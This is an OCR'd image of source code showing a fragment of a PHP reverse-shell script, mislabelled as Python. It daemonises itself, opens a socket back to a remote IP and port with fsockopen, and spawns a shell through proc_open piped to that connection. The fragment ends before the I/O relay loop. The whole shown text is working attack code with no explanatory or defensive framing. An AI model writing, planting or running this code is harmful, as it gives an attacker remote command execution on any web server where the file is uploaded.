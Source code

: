 ```python
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
```